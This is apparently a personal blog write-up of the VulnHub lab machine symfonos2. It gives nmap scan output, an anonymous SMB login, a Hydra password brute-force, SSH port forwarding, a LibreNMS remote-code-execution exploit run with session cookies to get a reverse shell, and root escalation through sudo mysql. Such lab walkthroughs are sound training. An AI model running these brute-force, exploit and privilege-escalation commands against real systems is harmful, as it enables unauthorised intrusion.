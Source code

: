```yaml
---
layout : post
title: symfonos2
date: 2021-04-15 02:05:08 +05:30
tags: [SSH BruteForce,SSH PortForwording]
---
```


# Nmap

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:5f:87:20:e5:8c:fa:68:47:7d:71:62:08:ad:b9 (RSA)
|   256 04:2a:bb:06:56:ea:d1:93:1c:d2:78:0a:00:46:9d:85 (ECDSA)
|_  256 28:ad:ac:dc:7e:2a:1c:f6:4c:6b:47:f2:d6:22:5b:52 (ED25519)
80/tcp  open  http        WebFS httpd 1.21

rabbit hole
|_http-server-header: webfs/1.21
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:59:3C:A4 (Oracle VirtualBox virtual NIC)
Service Info: Host: SYMFONOS2; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
`rabbitHole`

![]({{site.baseurl}}/img/vulnhub/symfonos2/rabbithole.png)

```
Host script results:
|_clock-skew: mean: 1h39m49s, deviation: 2h53m12s, median: -10s
|_nbstat: NetBIOS name: SYMFONOS2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos2
|   NetBIOS computer name: SYMFONOS2/x00
|   Domain name: /x00
|   FQDN: symfonos2
|_  System time: 2021-04-13T02:49:58-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-13T07:49:59
|_  start_date: N/A

```

# Enumeration
<h4>Smb Enumeration</h4>
![]({{site.baseurl}}/img/vulnhub/symfonos2/smbclient.png)
>smbclient -U"anonymous%anonymous" //10.0.2.48/anonymous

you can find the log.txt inside `/backup Directory`

![]({{site.baseurl}}/img/vulnhub/symfonos2/backup_log.png)

<h4>SSH Bruteforcing</h4> 

>Hydra -l aeolus -P ~/rockyou.txt ftp://10.0.2.48

![]({{site.baseurl}}/img/vulnhub/symfonos2/sshBruteforce.png)

Found Password 

`aeolus:sergioteamo`

# PrivilageEsclation

<h4>PortForwording</h4>
![]({{site.baseurl}}/img/vulnhub/symfonos2/openports.png)

you can find the port 8080 is running on serverLocalHost ,so to enumerate the port you need to [**PortForword**](https://linuxize.com/post/how-to-setup-ssh-tunneling/) to your local machine via ssh 

> ssh -L 3333:127.0.0.1:8080 aeolus@10.0.2.48

After accessing the web server on localhost:8080 through our browser, we can see, that `librenms is running. Using searchsploit reveals, that this application is vulnerable to remote code execution`, which comes really handy! We log in to the web application by providing the same credentials used for ssh. Downloading the exploit, it requires our cookies, listener ip and port to run. We setup our netcat listener and fire up the exploit:


```
 python 47044.py http://localhost:3333 "librenms_session=eyJpdiI6InZ1U3U3eTM4NTU2TFdDaTJBdmVjZWc9PSIsInZhbHVlIjoiWjBDVm9CcmlDQVEyUFF0UGpYODBhTE11RDg4TUM2VWtcL2NwMHhVZit3UDlVN0JcLzdHOWFVajZ2TFpcL1l6TCt1NGlwOVhjdVo3cjBPN0w5UHNBM2d0YkE9PSIsIm1hYyI6ImQ0NWE3ZWQ5M2EyNzA1NDZjODg5ZmQzN2JkMDQxNzQ1NWEzNGNjMjY2OWZiN2JkNDBkOGNkM2UyZjEyNjhmODUifQ==; XSRF-TOKEN=eyJpdiI6IjEyZm1ZWlo2dU9MVDJaTmpPZnhYTEE9PSIsInZhbHVlIjoiaG1za3VnZ1JVdk05UFwvUXNTUFF2TUlLVDRpelRmV0prMkU2N3QreWt1NjdaODNjY0pWRUJXTWQ3S3JcL2JtWnYyclpMMWJPY0hOOXY4RW9aaHk4UGU3Zz09IiwibWFjIjoiYjRhNTU0MjYwMzM1OWRjZTQ1MDU1ZGU1NDMwY2E1MDk5N2EzNmYzMTk5NGM5YWY5MTczMzAxMmY3NGQzY2RjNyJ9; PHPSESSID=ern5j06g3mth2e6jn5b1sre5t3" 10.0.2.48 80
```

got the shell

now by `sudo -l` command got to know the sql can be executed with root privilage without password

> command :  sudo mysql -e "/! /bin/bash"


 ```
$ sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin/:/usr/local/bin/:/usr/sbin/:/usr/bin/:/sbin/:/bin
User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
$ sudo mysql -e "/! /bin/bash"
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/proof.txt
    Congrats on rooting symfonos:2!

           ,   ,
         ,-`{-`/
      ,-~ , / {-~~-,
    ,~  ,   ,`,-~~-,`,
  ,`   ,   { {      } }                                             }/
 ;     ,--/`/ /    / /                                     }/      /,/
;  ,-./      / /  { {  (                                  /,;    ,/ ,/
; /   `       } } `, `-`-.___                            / `,  ,/  `,/
 /|         ,`,`    `~.___,---}                         / ,`,,/  ,`,;
  `        { {                                     __  /  ,`/   ,`,;
        /   / /                                 _,`, `{  `,{   `,`;`
       {     } }       /~/         .-:::-.     (--,   ;/ `,}  `,`;
       //._./ /      /` , /      ,:::::::::,     `~;   /},/  `,`;     ,-=-
        `-..-`      /. `  ./_   ;:::::::::::;  __,{     `/  `,`;     {
                   / , ~ . ^ `~`/:::::::::::<<~>-,,`,    `-,  ``,_    }
                /~~ . `  . ~  , .`~~/:::::::;    _-~  ;__,        `,-`
       /`/    /~,  . ~ , '  `  ,  .` /::::;`   <<<~```   ``-,,__   ;
      /` .`/ /` .  ^  ,  ~  ,  . ` . ~/~                       //, `,__
     / ` , ,`/.  ` ~  ,  ^ ,  `  ~ . . ``~~~`,                   `-`--, /
    / , ~ . ~ / , ` .  ^  `  , . ^   .   , ` .`-,___,---,__            ``
  /` ` . ~ . ` `/ `  ~  ,  .  ,  `  ,  . ~  ^  ,  .  ~  , .`~---,___
/` . `  ,  . ~ , /  `  ~  ,  .  ^  ,  ~  .  `  ,  ~  .  ^  ,  ~  .  `-,

```



